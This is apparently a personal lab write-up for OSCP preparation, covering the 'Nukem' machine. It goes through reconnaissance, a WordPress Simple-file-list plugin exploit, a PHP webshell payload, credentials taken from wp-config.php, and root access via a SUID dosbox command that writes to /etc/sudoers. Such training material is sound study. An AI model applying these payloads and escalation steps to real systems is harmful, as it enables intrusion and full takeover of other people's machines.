 ```yaml
---
layout: /src/layouts/PostLayout.astro
title: Nukem
tags: ["enumeration", "Wordpress" ]
---
```

**Start 13:08 03-01-2025**

---
```
Scope:
192.168.196.105
```
## Recon

### Nmap

```bash
sudo nmap -sC -sV -oN nmap nukem -T5 -vvvv --min-rate=5000 -sT -p-         

PORT      STATE SERVICE     REASON  VERSION
22/tcp    open  ssh         syn-ack OpenSSH 8.3 (protocol 2.0)
80/tcp    open  http        syn-ack Apache httpd 2.4.46 ((Unix) PHP/7.4.10)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.10
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Retro Gamming &#8211; Just another WordPress site
|_http-generator: WordPress 5.5.1
3306/tcp  open  mysql?      syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, HTTPOptions, NULL, afp: 
|_    Host '192.168.45.238' is not allowed to connect to this MariaDB server
| mysql-info: 
|_  MySQL Error: Host '192.168.45.238' is not allowed to connect to this MariaDB server
5000/tcp  open  http        syn-ack Werkzeug httpd 1.0.1 (Python 3.8.5)
|_http-title: 404 Not Found
|_http-server-header: Werkzeug/1.0.1 Python/3.8.5
13000/tcp open  http        syn-ack nginx 1.18.0
|_http-server-header: nginx/1.18.0
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-title: Login V14
36445/tcp open  netbios-ssn syn-ack Samba smbd 4.6.2
```

It appears we have a webserver called `Retro Gaming` running on **WordPress 5.5.1** (which we will confirm).

We have a **MySQL** database on `3306` to which we are *NOT* allowed to connect.

Port `5000` is running a Python web server (presumably the backend server).

Port `13000` is running **nginx 1.18.0**.

Lastly port `36445` is running a **SMB 4.6.2** server.


### 80/TCP - HTTP

To further enumerate I first of all went to the website and checked it out.

![](../../../assets/808ea5499adedb024445542d8d5e91d1.png)

I inspected it closer using *WappAlyzer*:

![](../../../assets/27bf4bfc39bd7da6d6ed6f197e88708d.png)

### wpscan

In order to see what plugins might be vulnerable I used `wpscan` to check the website:

```bash
wpscan --url http://nukem
```

I then checked out the file and saw the following that stood out:

![](../../../assets/3a83982cb7e91e302bea79d8e2f5ee14.png)

![](../../../assets/24cfa3031dc06b7acf6a9cb794a49b7c.png)

Knowing this I decided to check whether there's a ready-made PoC available for this version.

![](../../../assets/b805d4ff720204c78388551529221dfe.png)

Found it.

Furthermore I also found the **Simple-file-list** exploit:

![](../../../assets/20c7859ca03ed8c79ee8624aaae866b0.png)

Now this looked a bit more promising, let's try this one out.


## Initial Foothold

The PoC looked somewhat as follows:

![](../../../assets/1fb60f5240146f286d9409ef91fb3e4b.png)

This file had to be edited in order for it to work.

I modified **line 36** to the following which would give me a webshell:

```python
payload = '<?php system($_GET["cmd"]); ?>'
```

![](../../../assets/cf8b1faf3e97415f6578c7ad4598aeb9.png)

Then I went to the website:

![](../../../assets/fdf04dc4b1a5352a9efbe22f73aa148e.png)

From here I could go ahead and craft up a reverse shell that would connect back to me, but first I got the `local.txt` flag.


### local.txt

![](../../../assets/8d2768896ec245a6a6a02745aeceadcb.png)


### Reverse Shell - Fail

From here on I had to url encode a simple reverse shell in order to get a normal shell.

:::fail
Unfortunately enough I tried a bunch of different variations and got stuck, so I had to improvise.
:::

![](../../../assets/8907d84c859a65d7f793624697140316.png)

![](../../../assets/1b758d17078df070d4f1bbb15c586820.png)


### Reverse Shell -Success

For this attempt I went ahead and put a php reverse shell in place of the previous webshell command:

![](../../../assets/109d8cdb69eb00f127a5316c3879ac3c.png)

![](../../../assets/1230d733fa5e1237f2dcc97c6e8533eb.png)

Now that I finally had a shell I could get to exploiting.

:::summary
1) I quickly found out that I had a shell as `http` and I could *NOT* run `sudo -l`.
2) I was able to view `commander`'s `/home` directory.
:::

## System Enumeration

Before I could go ahead and escalate my privileges, I had to first understand what environment I am dealing with.

To do this I went ahead and issued the following commands:

![](../../../assets/fb62d1a04db788937bfd47456196f8fb.png)

It seems we're dealing with an **Arch Linux** environment, which is a bit different from Debian-based Linux systems.

Since I couldn't find anything useful right away I decided to look for any config files:

```bash
find / -type f -name "*config*" 2>/dev/null
```

Amongst these I found this one file:

```bash
/srv/http/wp-config.php
```

![](../../../assets/4280ffc3d844fce48b5ce651938cf84f.png)

This could be a really important file for us!!!

![](../../../assets/4b0f719fa5f315713f54bb0851431d9b.png)

Look at that, appears we got the creds for *commander*:

```
commander
CommanderKeenVorticons1990
```

As for the rest of the file I couldn't find anything useful.

![](../../../assets/1ecb98f7884d865a93c3c8e74248e8b6.png)

Like that we're now the *commander* user.


## MySQL

![](../../../assets/cad05e0b6ecbddefef8e8e591e3a332d.png)

And now we can enumerate databases.

![](../../../assets/03254de10d8e3060040337b8384a21a4.png)

![](../../../assets/976931ca4c322739435e128c36b070ba.png)

![](../../../assets/6cd15e401e42d6f21f02d8ca10599786.png)

It seems to be only the admin user, for now we'll just note this and look for other vectors to get `root`.


## Privilege Escalation

I am not allowed to run `sudo -l` so there must be another way.

Apparently the attack vector was way easier, I looked at the binaries again:

```bash
find / -perm -u=s -type f 2>/dev/null
```

![](../../../assets/7eb31e6b09268f55b2fa41e1fc57f3c4.png)

I started checking all of them on [gtfobins](https://gtfobins.github.io/gtfobins/dosbox/) when I found `dosbox` to be interesting:

![](../../../assets/76b5697516e1b4d0a39fdd4320541694.png)

I will be writing the following to the `/etc/sudoers` file so *commander* can also become part of the sudoers group.

```bash
LFILE='/etc/sudoers'
/usr/bin/dosbox -c  'mount c /' -c "echo commander ALL=(ALL) NOPASSWD: ALL >> c:$LFILE" -c exit
```

![](../../../assets/fe324a9e54ae9a9fab13f39a8ad7fe3d.png)

Now if everything went correctly, I can go ahead and issue `sudo -l` now.

![](../../../assets/19478a0b5264d71e680bb83a00dc7eee.png)

Awesome.

Now all that's left to do is:

![](../../../assets/d8595b1a26ae3732bada3a5a098786d9.png)

---

**Finished 17:09 03-01-2025**

[^Links]: [[OSCP Prep]] 
